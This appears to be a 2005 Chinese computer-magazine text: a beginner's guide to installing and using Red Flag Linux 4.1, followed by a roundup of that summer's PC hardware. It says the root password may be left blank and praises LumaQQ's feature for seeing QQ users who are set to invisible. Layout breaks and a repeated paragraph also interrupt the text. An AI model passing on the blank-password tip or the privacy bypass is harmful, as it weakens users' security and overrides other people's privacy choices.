    我们这里使用红旗桌面 4.1 版。除购买安装光盘以外，用户还可以通过 http://www.redflag-Linux.com/xiazai/index.php 页面自行从网上下载 ISO 文件刻制光盘。一般的用户只需下载桌面版的第一张盘：系统安装盘（包含基本的操作系统和一些基本应用程序），和第二张盘：软件工具盘（包含大量常用的应用软件）；有编程爱好的用户还可以使用第三张盘：开发工具盘（包含在 Linux 环境中开发软件的必不可少的工具）；如果对 Linux 操作系统本身的研发有兴趣，还可以下载第四张盘：源码盘。对于 Linux 的学习不必操之过急，下面我们就从头开始。
    安装前可以稍稍作些准备，主要是硬件上的准备，从而保证系统能顺利安装并顺畅地运行。机器的内存至少需要 128M，现在内存的价格已经相对降低很多了，在经济条件允许的情况下，内存的配置高一些会提高运行的性能。硬盘上需要至少 2.5G 的独立空间，如果日后需要安装更多的应用软件，可以适当加大所使用空间的数值。

-   第一步：在 BIOS 中将启动顺序设置为光盘引导优先，把 Linux 的安装光盘放到光驱中开始启动安装（注意：因为完整的一套 Linux 系统往往包含几张光盘，所以请确定你放入光驱的是 Linux 的安装光盘，而不是源代码盘或者工具盘）。成功引导后将出现 Linux 安装启动界面，屏幕提示信息和 “boot：” 提示符，按回车键进入图形安装界面。
    第二步：开始的安装类似于 Windows 的安装，按照安装程序的提示操作即可。“开始安装”中选择接受软件协议（好像还没有能通过“不接受”而安装的软件），单击“下一步”。

-   第三步：“设置分区”是安装过程中惟一的难点，因为涉及到了硬件的常识，如果你对 Linux 系统分区不熟悉，建议你选择“自动分区”来让安装程序自动为你分区。分区概念是安装工作中最复杂的部分，一旦搞定后面的过程就一马平川了。

你知道吗？
在 Linux 系统中对硬盘及分区的描述同微软的 Windows 不同。例如：如果在 DOS 和 Windows 中 C： 和 D： 是指两个分开的硬盘驱动器，Linux 把它们分别表示为 hda 和 hdb 或 sda 和 sdb。如果 C： 和 D： 是指一个驱动器上的两个分区，Linux 则会把它们分别识别为 hda1 和 hda2 或 sda1 和 sda2。其中，“hd”表示 IDE 硬盘，“sd”表示 SCSI 设备。在 Linux 安装程序中看到的“/dev/had”，表示设备（Device）中的一个 IDE 硬盘。如果想让 Linux 和 Windows 共存，请在安装的分区设定中，将 Linux 安装在“剩余空间”中。

### 小知识

了解Linux的分区

在 Windows 中，硬盘的使用功能和分区没有太多关系，主要以分区来区分，以英文字母排列顺序命名，比如 C、D、E……但 Linux 中不同，分区是以磁盘功能划分的。在 Linux 分区中，最基本的分配方式是将硬盘分为“swap”和“/”分区。如果硬盘较大，超过 8GB 以上，可能就需要考虑多分出一个“/boot”分区。当然你也可以为 Linux 的个别文档目录例如“/home”、“/tmp”、“/usr”、“/use/local”等独立分区指定一个专属的分区。直接指定某种功能的文档使用专属的分区，这样系统出现故障时，只需要将个别分区内的数据备份即可。但是这样也有不便之处，比如某分区在开始分配的时候分得较小，之后空间不足就麻烦了。对于初学者来说，建议将分区分为“/boot”、“swap”、“/”，其他的个别类型分区，“/”分区会自动调配空间。

-   第四步：“系统配置”中使用默认配置即可，网络设备可以现在就配置，也可以等系统安装结束后第一次启动系统时再配置。为了最大限度地简化安装过程，可以将“引导时激活”前面的对钩先去掉。
    第五步：设置管理员密码。在 UNIX/Linux 系统中管理员用户名统一使用 root，密码可以根据自己的习惯使用，也可以空着不写。单击“下一步”按钮。
    第六步：到“安装系统”步骤时只需单击“下一步”按钮就可开始系统安装。根据机器硬件配置的不同，系统的安装可能需要 10~20 分钟的时间。从以上过程可以看出安装的难点是出现在分区的时候，其实分区的概念属于硬件，而并不是某个操作系统所独有，所有类型的操作系统在安装时都会面临这一问题。原则上，安装一个操作系统相对比较容易；两个操作系统并存的时候就要考虑好硬盘空间的分配以及适当的启动顺序了。目前在所有的 Linux 发行版本中，红旗 Linux 的安装步骤属于最方便的一类。当系统成功安装后，通过“退出”按钮会弹出安装光盘并第一次启动系统。
    另外，上面叙述的过程是红旗桌面版第## 电脑爱好者

一张盘；即系统盘的安装过程。软件工具盘和系统开发盘的安装过程极为简单，只要在图形界面下放入光驱就会自动弹出安装界面。

**小提示**
root根用户(又称超级用户)对整个系统有完全的存取权；正因如此，请最好只有在执行系统维护或管理时才登录为根用户。创建一个非根账号来做日常工作。要变成根用户，在终端机窗口的 shell 提示下键入 su -，并按回车键，然后输入根口令并按回车键。

如果你还想了解整个安装过程的细节可以参考黑客基地的文章《红旗Linux桌面4.0最详细安装图解》http://hackbase.com/News/hk/200410187960.html。选用Red Hat Linux 的朋友可以参考 http://www.kreny.com/computer/install_Linux/page_01.htm 这篇《图解安装Redhat Linux 9.0》，全部用图描述安装过程，步骤非常细致。

**你知道吗？**
**磁盘分区和挂载点**
一个地方的各分区是怎么样被操作系统使用的？它在 DOS/Windows 中相对来说较为简单。每一个分区有一个“驱动器字母”，你用恰当的驱动器字母来指代相应分区上的文件和目录。而 Linux 处理分区及磁盘存储问题的方法截然不同。Linux 中的每一个分区都是构成支持一组文件和目录所必需的存储区的一部分。它是通过挂载(mounting)来实现的，挂载是将分区关联到某一目录的过程。挂载分区使起始于这个指定目录(称为挂载点，mount point)的存储区能够被使用。例如，如果分区 /dev/hda5 被挂载在 /usr 上，这意味着所有在 /usr 之下的文件和目录在物理意义上位于 /dev/hda5 上。因此文件 /usr/share/doc/FAQ/txt/Linux-FAQ 被储存在 /dev/hda5 上。这个概念有点类似于你在 Windows 下将某个磁盘分区虚拟成一个文件夹放置在另一个磁盘分区上。

有关挂载点的详细说明，大家可以参考 http://Linux.chinaunix.net/doc/system/2005-01-24/897.shtml。

## Linux 系统配置比 Windows 还简单

在系统启动时会显示 Red Flag Desktop (2.4.26-1) 正常启动菜单, Red Flag Desktop (Safe Mode) 安全模式和 Red Flag Desktop (Console Mode) 文字方式。不同的启动项可以用于不同的场合，维护系统时才会使用安全模式甚至文字方式，而默认的启动方式就是正常的图形界面。通过用户名称 root (即管理员账号)和密码的输入可以进入正常的图形界面。习惯于微软操作系统的用户在红旗桌面下可以顺畅地操作，因为红旗 Linux 桌面版已经采用了 Windows-like 的风格。第一次启动系统时会提示用户配置硬件中的显卡、声卡、网络等，除去必不可少的参数以外，一切都在自动进行着。用户完全可以不必关心具体的技术参数细节，诸如显卡是哪个厂家的，网卡需要什么驱动等，系统将会自动选择好相应的设备驱动，用户只需要输入显示分辨率，IP 地址，网关地址，DNS 等参数就行了。而且所有的操作都是图形化的。一些 Linux 的仰慕者就是在众多的 Linux 命令面前望而却步的，现在可以试试红旗 Linux 桌面版，从用户界面友好的操作入手。其他硬件的配置也是由操作系统自动完成配置的，比如使用笔记本电脑的用户可以随时插拔 USB 接口的鼠标，此时笔记本本身的鼠标仍可以同时使用。U盘或者 USB 接口移动硬盘只要连接到 USB 接口上就会被自动挂接，并通过桌面上“我的电脑”图标浏览其中的文件。所有硬件的配置可以统一通过“控制面板”中的图标进行配置修改。

## 实际操作 Linux，体验小企鹅的魅力

除去安装、配置以外，用户更关心的还是应用程序的使用。一般用户并不在意使用的是什么操作系统，而是注重所使用的应用程序能否满足自身的需求。下面我们就来看看在 Linux 里我们都能做些什么？

## 轻松设置网络，Linux 和 Windows 一样简单

目前的 Linux 系统都自动检测安装的网卡，安装相应的驱动程序。系统默认会安装好网卡驱动程序之后设置网络为自动获取 IP，如果你想手动设置可以按照下面的步骤操作。

第一步：点击“开始→设置→网络→设置本地网络”打开“网络配置”程序。

第二步：选择你需要配置的网卡，在“缺省网关和域名服务器”中修改相关参数，之后点击“修改参数”按钮，在弹出的设置窗口中选择“手动指定”进行 IP 地址等参数的配置即可。

**你知道吗？**
在红旗 Linux4.1 桌面版中，你也可以像在 Windows 中那样，用鼠标双击屏幕右下角任务栏上的网络连接小图标，打开“本地连接”窗口，点击“属性”按钮打开网络设置程序。

目前的网络连接方式确实是五花八门，不管您使用的是何种网络连接方式是 ISDN、ADSL 或者电话拨号方式都可以通过设置菜单中的配置拨号连接；使用“软猫”的用户也可以得到支持。

## 上网冲浪，Linux 下太 Easy

网络应用已经成为计算机必不可少的主要功能。Mozilla 项目组专门开发的浏览工具 Firefox (目前 Linux 桌面版下的主要浏览器，近来其使用普及性呈直线上升之势) 是红旗 Linux 桌面版中的首选浏览器。也可以使用和文件管理器集成在一起的 Konqueror 浏览器，原来只能在 IE 中观看的 chm 格式的电子书也可用这个浏览器观看。默认情况下，利用系统中的这两类浏览器就足以浏览不同类型的网页，常用的插件已经被集成在浏览器里。如果你喜欢，还可以自己下载安装 Linux 版的其他浏览器的软件，如 Opera 等。

**小提示**
如果你安装的 Linux 上没有 Firefox 浏览器，你可以从 http://www.mozilla.org 下载最新的 FireFox 浏览器。下载的程序是一个 rpm 安装包，你只需要在 Linux 的图形界面中双击这个安装文件的图标，并按照提示安装即可。

## LumaQQ，谁说 Linux 下不能 QQ

LumaQQ 是一个独立的 Java QQ 客户端，具有可重用的纯 Java 核心和基于 SWT 的仿 QQ 界面。正因为 LumaQQ 基于 Java 语言设计，所以它能够跨平台，就是说你只要安装 JRE (Java 虚拟机)，那么无论你使用什么操作系统，你都能使用它。LumaQQ 特别的如来神掌功能一度使得 QQ 隐身形同虚设，使用它你能看到所有的 QQ 隐身用户。

下面我们在 Linux 下进行 LumaQQ 的安装。
第一步：下载带有 JRE 的 LumaQQ，这样安装和设置的过程更简单。带有 JRE 的 LumaQQ 文件名都带有“with_jre”。
第二步：将下载的 lumaqq_2004-Linux_gtk_x86_with_jre.tar.gz 文件复制到某个目录，这里假设是 /usr/local。
第三步：执行命令“tar zxvf lumaqq_2004-Linux_gtk_x86_with_jre.tar.gz”解压，或者用鼠标右键单击这个文件选择解压，这样会在 /usr/local 下生成一个名为 LumaQQ 的目录。当然，这个目录的名字你是可以更改的，同样它所在的目录你也可以更改。
第四步：运行 LumaQQ 脚本即可看到像腾讯 QQ 那样的登录界面，登录以后就可以在 Linux 系统下 QQ 了。
另外，由于腾讯 QQ 经常会发布新的版本，你也需要相应地升级 LumaQQ，你可以下载 LumaQQ 的补丁包来升级。补丁不是完整的程序包，只是升级补丁，所以在打补丁之前你首先要安装 LumaQQ 的主程序。
第一步：下载了 LumaQQ 的补丁文件，解压补丁文件。
第二步：把解压出来的所有 jar 文件拷贝到 LumaQQ 的 lib 目录下，覆盖原有文件即可。

**你知道吗？**
如果你想了解有关 LumaQQ 的相关技术，如果你想了解它的如来神掌功能是如何实现的，如果你在安装和使用 LumaQQ 的过程中遇到问题，那么你可以访问 http://lumaqq.linuxsir.org 来了解 LumaQQ 更详细的资料。LumaQQ 也可以运行在 Windows 和 FreeBSD 等操作系统上，支持 AMD 64 位平台和 Power PC，对于 AMD 64 位平台和 Power PC 你需要分别下载相应的版本。

## 影音娱乐，Linux 下的完美体验

Xine 是 Linux 系统下一个免费的多媒体播放软件，相当于 Windows 系统下的 Windows Media Player，而且其功能也基本相近，你可以用它来播放 CD 唱片、VCD 和 DVD 影碟，也可以用它来播放 AVI、MOV、WMV 和 MP3 等影音文件，只要你安装了相应的解码器，它就能播放相应种类的多媒体文件。

Xine 的使用十分简单，你可以类似于使用 Windows Media Player 那样来使用。你可以先打开 Xine 之后用它打开一个影音文件播放，也可以用鼠标拖动一个影音文件到 Xine 的图标上来播放它。与 Linux 下其他软件类似，Xine 也支持在系统终端中输入命令来播放影音文件。你可以访问 http://xine.sourceforge.net 来进一步了解它的相关资料和找到它最新版本的下载。

## Linux，没有什么游戏不能玩的

现在 Linux 越来越贴近家庭用户，它的游戏功能也日渐完善，系统自带的小游戏也一点不比微软的缺乏乐趣，而且它还能很好地支持各种游戏模拟器，现在也有很多大公司为 Linux 开发游戏，比如 ID soft 的 DOOM3 等，甚至你还能在 Linux 上玩 Windows 上的热门游戏。怎么样？游戏迷们跟我来吧，看看 Linux 是怎么实现你的游戏梦的！

### 1. 模拟器游戏

《魂斗罗》、《超级玛丽》等任天堂游戏我们可以安装模拟器在 Windows 里玩，在 Linux 中同样也可以，我们只需要安装 Fce Ultra，它为 Linux 平台提供了代码安装包：http://www.huihoo.com/game/Linux/simulator/fceu096src.tar.gz，编译安装这个模拟器是一件相当简单的事：下载 fceu096src.tar.gz，展开到一个临时目录下，进入该目录，将 Makefile.unixsl 拷贝成 Makefile，然后运行 make，如果一切顺利，将在该目录下生成 fceu 的执行程序。在指令行输入“./fceu” 将得到指令行帮助，试试“./fceu -fs contra.zip”，看到你久违的《魂斗罗》画面了吗？其中“-fs”选项将使 fceu 在全屏幕方式下运行。

以下还有多个不同平台模拟器的下载地址，请大家看需求安装：
超任模拟器 Snes9x 下载地址：http://www.lysator.liu.se/snes9x/
PS 模拟器 ePSXe 下载地址：http://www.epsxe.com/download.php
街机模拟器 XMAME 下载地址：http://yarrow.freshrpms.net/rpm.html?id=1342

### 2. 专为 Linux 设计的游戏

以上小游戏您还不过瘾，那就跟我来玩这些专门为 Linux 开发的大型 3D 游戏吧，QUAKE 3、UT2004、DOOM 3 等都可以在 Linux 上运行如飞。

QUAKE3 和 DOOM3 下载地址：ftp://ftp.idsoftware.com/idstuff/
虚幻竞技场 2004 下载地址：http://www.unrealtournament.com/ut2004/downloads.php

### 3. 我就要玩 CS

像 CS、暗黑、星际等只能在 Windows 环境下玩的游戏，你照样可以去下载一个仿真运行程序看看，如 Cedega，它可以让这些游戏以为你是在 Windows 环境运行它们，许多游戏都可以在它下边顺利运行，至于下载安装，请大家自己动手，Just do 一下。

## Windows 所有应用，Linux 一样做得到

日常办公是 Linux 桌面版中的常见应用，办公软件有和微软 Office 比肩的 OpenOffice 系列，更有国产的金山 WPS Storm。
金山 WPS Storm 几乎可以完美地打开所有的 Office 文档，还可以将 WPS 或者 Office 的文件转换成 PDF 文件，你可以到 http://www.kingsoft.com/download/33/230.shtml 随意下载使用。

中文显示和输入是中文用户的基础需求。红旗 Linux 桌面版在输入法的选择上充分考虑了用户的使用习惯，默认包含全拼、智能 ABC、紫光和五笔等输入法，用户自己的输入法和码表也可以通过“控制面板”中的输入法管理器自行添加。如果有需求还可以定制安装手写板等特殊设备。
绘图软件有类似 Photoshop 的 GIMP，PDF阅读工具Adobe Reader 7.0的Linux版，支持BT下载的应用程序等等，甚至包括能支持数码相机的软件Digikam，真是应有尽有。大家可以参考http://tech.ccidnet.com/pub/article/c743_a262191_p1.html《Linux下新手基本操作及技巧看图上路》一文学到更多的应用。

**你知道吗？**
了解Linux的命令
Linux自出道就是一套命令行方式操作的系统，图形界面X-Windows不过是在其上运行的一套程序，和微软的图形界面操作系统是两码事，而Linux的桌面产品也还不能和微软的产品媲美，在众多程序员和大量的应用需求下，Linux的桌面产品还是进步得相当快。不过，想要掌握Linux，了解它的命令是必须的。下面我们简单用和DOS命令对比的方式让大家了解一下Linux的命令格式和基本的命令。

Linux里面文件夹分隔符号与Windows正好方向相反，这一点要注意，你如果习惯网络上的路径表示方法，那么你一定会习惯Linux的这种文件路径表示方法。更多的实例请参考《Linux命令行大全》http://www.Linuxeden.com/doc/article.php/18981。

| 命令用途 | DOS | Linux | 举例 |
| --- | --- | --- | --- |
| 复制文件 | copy | cp | 举例：cp thisfile.txt /home/ thisdirectory |
| 转移文件 | move | mv | 举例：mv thisfile.txt /home/ thisdirectory |
| 列举文件 | dir | ls | 很多版本的Linux 也兼容 dir 命令 |
| 清除屏幕 | cls | clear | |
| 关闭shell提示 | exit | exit | |
| 显示或设置日期 | date | date | |
| 删除文件 | del | rm | 举例：rm thisfile.txt |
| 创建目录 | mkdir | mkdir | 举例：mkdir 目录 |
| 重新命名文件 | ren | mv | 举例：mv thisfile.txt thatfile.txt |

安装软件另有一套

Linux安装程序的方式有两种，一种是将开发者做的软件预编译包编译安装，这是安装Linux软件较通用的方式。例如：安装Linux的中文输入法，在Linux纯命令行方式中，将在http://download.pcpop.com/Linux/office/2004/03/07/1078657508d3274.html下载的文件放入任一目录中，依次执行“tar xvzf zhcon-0.2.1.tar.gz”→“cd zhcon-0.2.1”→“./configure→make→make install”安装结束；要想使用，运行zhcon，想退出，运行exit。

另一种是用RPM包安装，这是开发者为了方便Linux软件的安装，制作的一种打包压缩方式，可以让Linux用户更简单地安装应用程序，大家可以到http://people.linux.net.cn/xgveu/cmuo/basics/cbrpm.html看看它比较完整的讲解。

## 融合现实与理想的桌面时代

在DIY热潮日渐消退的今天，绝大部分消费者购买和使用电脑，为的并不再是享受电脑搭配和软硬件调试的“高级乐趣”。但是，与技术准备不足形成鲜明对比的是，用户对电脑产品和技术的需求以及实际的应用领域并没有因此受到任何限制，反而是在不断扩大。伴随着需求领域的扩大，对硬件的多样性和性能都呈现出需求上升的势态。比如，过去不在传统“十三件”名单中的闪存盘、MP3播放器、宽带及无线网络产品、刻录机甚至数码相机、笔记本电脑，都越来越呈现出全民普及的势头。在与这些硬件对应的应用背后，又衍生出了对电脑计算性能需求的爆炸式增长。而一些应用也推动着硬件配置不自主地提升档次，比如仅一个《魔兽世界》这个网游，就直接把一大批电脑带进了“内存G时代”，根本不管你这个人是不是发烧友；再如，宽带网的普及，网络视频甚至IPTV的如期而至，也对我们的配置提出了新的要求……所有的一切的一切，都在一双无形之手的掌控、搓揉之下，将我们的理想与现实的需求不断地糅合、堆叠，以至于我们生活的快感越来越多地来自那个“桌面”。

我们经历了昨天的辉煌，安乐于今天的主流，觊觎着明天的希望，一切都周而复始、循环往复地运行着，催促着我们去了解这个理想与现实融合的桌面时代的每一条筋骨与脉络……

北京的夏天酷热难耐，炙热的阳光灼烤着每一个角落，让人不愿出门，但是中关村电脑市场依旧是人潮攒动举步维艰，是什么让我们如此执着地保持对硬件更新的喜好，我们为什么难以抵抗日新月异的硬件技术和产品给我们的兴奋和诱惑，也许答案就是“我就喜欢！”，那么今夏有什么新的技术和新的产品能够让你兴奋，让你有不顾一切冲到电脑城的欲望呢？

本期特别话题CFan为你揭示2005年暑期硬件技术的热点和值得你拥有的产品。给你一个全面了解当前硬件技术和产品流行趋势的绝好机会，本次盘点会包含硬件产品的方方面面，值得拿出来分享的部分都会呈现在你的面前。如果你是硬件爱好者，请花点时间和我们一起回顾今年硬件技术和产品的发展历程，一起享用这道今年夏天的硬件大宴。

## 系统运算单元的革命

热点：双核心、64位、DDR2，不久的将来，它们必将成为主流平台的首选。但目前，它们还有很多问题需要解决，比如软件支持、比如价格……

### 双核心CPU:1+1=2?

**你知道吗？**
双CPU系统曾经的辉煌

老一点的DIYer应该还能记得，大概在1999年的时候，曾兴起过“双CPU热”。只需买两块赛扬300A和一块双CPU的主板（当时有很多针对普通DIYer的廉价双CPU主板），就可以组装一台双CPU的电脑。只不过当时缺乏支持双CPU的软件，以至于出现CPU两块中一块发热，而另一块冰凉的笑话，那场“双CPU热”也在尴尬中退去……

一块双CPU的主板（当时有很多针对普通DIYer的廉价双CPU主板），就可以组装一台双CPU的电脑。只不过当时缺乏支持双CPU的软件，以至于出现CPU两块中一块发热，而另一块冰凉的笑话，那场“双CPU热”也在尴尬中退去……

今年，AMD和Intel纷纷发布双核心CPU，再次引发了一股“双CPU热”。与过去完全不同的是，如今的双核心技术是将两块CPU核心集成进了一块CPU中，操作系统也由当初只支持单CPU的Windows98变成了如今支持双CPU的Windows XP，但致命的弱点仍未有改观——缺乏应用软件的支持。

从各大媒体的测试结果来看，我们不难发现：双核心并不是1+1=2那么简单。除了一些测试软件中能有大幅度的领先外，双核心CPU就只能在Photoshop、TMPGEnc、3DS max7之类的多媒体工具中施展拳脚了，因为在常见的游戏和日常应用中，双核心CPU并未见优势，有时甚至比单核心的CPU还慢一些——总不能人买台双CPU的电脑回家后，整天压制电影吧？除此之外，双核心CPU在没有带来性能巨幅提升的同时，却带来了巨大的发热和功耗：在Intel给各大媒体送测的样机中，我们“惊喜”地发现：CPU的散热器巨大，而且机器还装配了高达5XXW的电源，也许以后用电脑还得像用空调那样专门接一条供电线……当然，目前的双CPU产品越来越强调工作效率，而不再是将两个核心的CPU进行简单堆砌，诸知“超线程”之类的技术会让双核心CPU的资源得到充分利用，使性能更上一层楼。同时，为了保障双核心CPU系统的稳定性，Intel和AMD都在各自的产品中加入了更完善的过热保护和节能技术，这些都是以往的产品所没有的。

Pentium 840EE和Athlon64 X2等双核心CPU的发布翻开了CPU发展史上新的一页，而且这次的“双CPU热”可能不会像以前那样快速退去，但前路漫漫，高昂的使用成本和缺乏软件支持阻挡了双核心CPU家用化的进程，在双核心CPU大规模普及之前，我们能做的也就只有等待。

## 64位CPU:前景美妙，道路曲折

随着微软正式发布64位Windows XP，各大CPU厂商又再次勾勒了一幅前景美妙的64位CPU应用图。不错，64位CPU必会成为主流，就像当初32位CPU取代16位CPU一样，但在各CPU厂商说着“64位计算不远了”的同时，却没有给出一个十分明确的时间表。64位计算就如同双核心CPU一样，万事俱备，只欠应用软件支持这个东风，目前32位的软件并未在64位Windows XP上获得多大的便宜，不少游戏甚至还会吃亏，而64位Windows XP自身也面临很多问题，离完善还有很长的距离。同时，一些64位CPU和相关主板高昂的价格也让消费者犹豫不决，虽然64位CPU也能为32位应用带来性能上的提升，但效果仍未到达让人惊喜的地步。

32位程序的大规模普及应该是在Windows 95之后——第一块32位CPU早在10年前就发布了。就算现在64位计算普及再快，至少也要几年时间，所以现在买CPU不用太在意“多少位”，价格差距不大的情况下可以选择64位的CPU，但如果价格差太多，买32位CPU也不会有什么问题，因为等到64位计算普及之时，手中的64位CPU也许早已过时多年。另外，假如您打算购买Athlon64的话，那么您绝对要留意主板与内存条的兼容性问题，因为随着大容量高速内存的普及，这类兼容性问题将越来越严重，笔者建议您在选购Athlon64的配套主板前，最好到硬件网站或论坛了解相关情况。内存条也一样，Athlon64对内存条的要求远比Intel的CPU要复杂得多，内存条最好一次性买足，并且不要抱着同品牌、同颗粒的产品就一定能开双通道的侥幸心理，总之买前多问才能确保自己买后不后悔。

最后，想少花钱就体验64位应用的用户也有了选择，除了昂贵的支持64位处理的Athlon 64和新一代Pentium 4外，支持64位处理技术的赛扬D处理器和Sempron也即将上市，到时候，新一代个人电脑将完全进入64位计算时代。

## DDR2:在尴尬中前行

去年7月，DDR2开始登陆各地市场。当时，256MB DDR2 SDRAM高达900元的售价就注定了这个新产品的前路不会好走，会像当初的RDRAM一样艰难。

与内存和主板厂商的满腔热情相比，终端市场对这个新产品并不感冒。任凭厂商使出九牛二虎之力进行推广，消费者就是不买账，最后甚至还传出笔记本电脑厂商拒用DDR2的消息。眼看着严重的积压，最后内存和主板厂商使出“降价”这一杀手锏，900多元的DDR2内存条顿时间“高台跳水”至400多元，但没想到DDR2这边降价，DDR在那边降得更猛，一时间各大主板和内存厂商纷纷乱了阵脚……一年过去了，DDR2仍在艰难地爬行着。

可以这么说，DDR2内存的现状正好验证了“技术好不代表市场好”这句话。虽然，DDR2带着一大堆先进技术，但在实际中却无法打败DDR（DDR2要在667MHz以上的高频才能显现出威力），这使得消费者很难为其买单。也有主板厂商针对这种情况推出了DDR/DDR2双用主板，但由于有了SDRAM/DDR双用主板的前车之鉴，消费者普遍对这类主板抱有戒心。同时，DIY市场的巨头——AMD对DDR2不冷不热的态度也注定了DDR2只能在DIY市场惨淡经营。

不过DDR2替代DDR是大势所趋，随着明年DDR2迈向高频，以及AMD发布支持DDR2的CPU，DDR2的路也将会越走越宽。同时，DDR2的高门槛也会让内存市场进行重新洗牌，以往泛滥的散装条很可能会从此消声匿迹。至于消费者最关心的价格问题，笔者欣喜地发现市场上已经出现了价格相对低廉的产品，如来自新加坡NCP的DDR2 SDRAM就## 主板:经历转型 PCIE 的痛

是这样的产品，他们的256MB DDR2 533只需要190元，这样的价格已经很接近主流DDR的价格了，他们的出现无疑会加速DDR2普及的进程。当然，决定DDR2普及的另一重要因素还有主板，虽然目前几大主板厂商都发布了支持DDR2的主板，但其价格仍旧高高在上，而一些DDR/DDR2双用主板的价格更是高得离谱，传统意义上的“低价主板”的缺席让DDR2平台的组建成本仍旧居高不下，这也是DDR2普及的一大障碍！

不过，从另一方面讲，这样的降价也是内存普及的必然发展规律，别忘了，当初比SDRAM昂贵数倍的DDR内存在经过数次大规模降价后现在比同容量的SDRAM还便宜。

由于PC构架向PCIE转换导致所有配件都要进行相应升级，使得在兼容机层面上，PCIE主板和相应配件在推出后的一年时间里基本处于叫好不叫座的境况。不过随着AMD和Intel两大厂商的主力产品全面转向PCIE，以及PCIE构架下的重要配件PCIE显卡的大幅度降价，现在从价格上，AGP时代已经可以平滑过渡到PCIE时代了。

但平滑过渡只是PC进入PCIE时代的第一步。而随着CPU进入双核心构架时代，第一代PCIE主板也即将完成自己的历史使命。Intel的第一代PCIE主板915/925系列不能支持双核心处理器，也不能支持更高的DDR2 667内存，而这些新的配件，则需要Intel第二代PCIE主板945/955系列。

除此外，nVIDIA在PCIE的芯片组也有非常大的发展，针对AMD平台的nFORCE4系列芯片组和专为Intel平台提供SLi功能的nFORCE 4 SLi Intel Edition版本已经让nVIDIA在芯片组市场备受赞誉。随着PCIE市场的明朗化，VIA、ATI、SiS、ULi这些芯片组厂家也极力推广自己的相应产品。

目前，新一代PCIE芯片组一般包含以下新功能:能够组成SLi或Cross Fire、DualGFX等多PCIE显卡应用方案；提供4个以上SATA甚至SATA 2硬盘接口，并提供RAID功能；整合7.1声道HD Audio音频处理系统；提供千兆网络功能，部分产品还提供硬件级防火墙。

## SLi: 阳春白雪

2005真是“好事成双”的一年，继双CPU之后，显卡也出现了SLi。一时间各大显卡厂商纷纷发布了自己的双显卡产品，甚至连XGI这样的显卡市场新军也有此打算，而主板厂商的热情更是起到了推波助澜的作用。不过，由于ATi的Cross Fire发布不久，因此目前市场上只能买到nVIDIA的SLi产品，再加上nVIDIA仍未开放SLi系统的授权，所以尽管VIA和Intel都发布了支持双PCI-E x16的芯片组，但无奈nVIDIA在Forceware中作出了限制，最终只能是英雄无用武之地。

可以这么说，假如您现在想选择SLi系统，那么nVIDIA的产品是惟一的选择，但可以预见的是随着ATi开放的Cross Fire加入SLi战团，nVIDIA最终还是会开放SLi授权，从而使SLi系统的整体构建成本大幅降低！

SLi系统的性能有目共睹，但目前支持SLi系统的产品有哪些呢？笔者为您收罗了一下，您可以作为参考。

针对目前SLi主板价格高昂的情况，以前曾有主板厂商推出了一些能破解成SLi主板的nForce4 Ultra/STD，但碍于nVIDIA的压力，只是出了一小批就不出。不过，俗话说“哪里有市场，哪里就有动力”，现在又有主板厂商冒着被“咔嚓”的风险推出了类似的主板，可以肯定这类主板会越来越多，就像当初的“PAT”一样，您还可以等一等。

另外，目前的SLi主板还有一个小小的问题，那就是两根PCI-E x16插槽之间的距离过近，而SLi显卡的散热器又大多属于巨无霸，因此安装的时候还是要小心一些，否则很容易造成主板变形或散热器受损，实在不行，您只能在散热器和主板之间做出取舍了。

目前的SLi显卡仍属于非常高端的产品，因此用料都差不多，您尽可以选择自己喜欢的牌子。在SLi的6600GT方面，华硕（N6600GT Daul）和技嘉（GV-3D1）分别推出了基于单卡双芯片的SLi产品，其中华硕的产品更可在非华硕的主板上使用，这类卡的性能可超过X850XT和6800Ultra，但在少数情况下不及单块6800GT，考虑到这类单卡双芯6600GT的价格都不到2000元，因此十分超值！

丽台PX 6800GT TDH SLi Premium Pack（套装）、七彩虹6800GT CH、XFX 6800GT、影驰6800GT等产品均有基于6600GT芯片的成品卡供选择。

不过，由于SLi耗电系统惊人，一个好电源必不可少，nVIDIA官方推荐的电源都在650W以上，实际使用中550W以上的电源可以满足需求了（超频另计）。但无论如何，SLi系统的电源的12V接口至少应提供总共30A的输出电流。当然，假如您不精通电源的选购，那么购买标称支持SLi系统的电源产品也是不错的选择。

### 支持 SLi 的主流主板

| 主板型号 | 描述 |
| --- | --- |
| ASUS A8N SLi Deluxe | 两根 PCI-E x16 之间的距离较宽，适合安装具有庞大散热片的 SLi 显卡 |
| ASUS A8N SLi Premium | 在 ASUS A8N SLi Deluxe 的基础上增强了 SLi 系统的易用性，将一根 PCI-E 1x 替换成 PCI-E 4x |
| DFI LanParty UT nF4 SLI-DR | 经典超频主板，但需要注意内存搭配 |
| MSI P4N Diamond/K8N Diamond | P4N Diamond 为支持奔腾 4 的 SLi 主板 |
| Gigabyte GA-K8NXP-SLi | 与 GV-3D1 套装的价格为 4399 元 |

## 存储设备: 多姿多彩的存储“空间”

热点:过去,存储约等于软盘;后来,存储约等于硬盘。现在,存储的“空间”百花齐放,微硬盘、闪存盘、DVD刻录,技术的进步带来不仅仅是容量的革命,更支撑着应用领域的革命。反而是传统的硬盘,由于难以突破技术禁锢而现在乏善可陈。

### 小型硬盘: 渐入佳境

2005年可谓“微硬盘”元年,不但在制造技术上取得突破,而且还成功地在消费型电子产品市场中占据了不少原本属于闪存的市场份额,而随着微硬盘的前行,相关的OTG（OTG是On The Go的缩写,基于USB Host技术）产品也出现在人们的视野中。

OTG产品和当年的“数码相机伴侣”有几分相似之处,都是外置大容量储存扩展方案,但现在的OTG产品明显比“数码相机伴侣”更易用,因为它不需要通过电脑,便可在两台支持OTG规范的设备、数码相机,或者具有USB接口的数据存储设备中进行数据交换,彻底突破以往产品对使用环境的限制。随后,爱国者发布的支持双向读写的P670更是将OTG的易用性推向极致。

目前市面上有很多OTG产品,可供选择的余地很大,但由于这类产品的制造门槛低,所以很可能会像当初的移动硬盘那样遍地开花,大量的品牌出现在市场上,因此笔者建议您在选购OTG产品时尽量选择名牌产品,否则烧了您的宝贝数码产品就不好了。另外,OTG产品的兼容性问题也不可忽略。

当然,如果您有一定的动手能力,您可以通过购买现成材料来组装自己的OTG产品。

### 存储卡: 跨入 G 时代

继内存跨入G时代后,存储卡也跨入了G时代。目前的储存卡可是前所未有的便宜,1GB的SD卡不到600元,而512MB的SD卡早已跌破300元,再加上数码相机、MP4和智能手机的兴起,很多消费者一买卡就奔上1GB的产品。

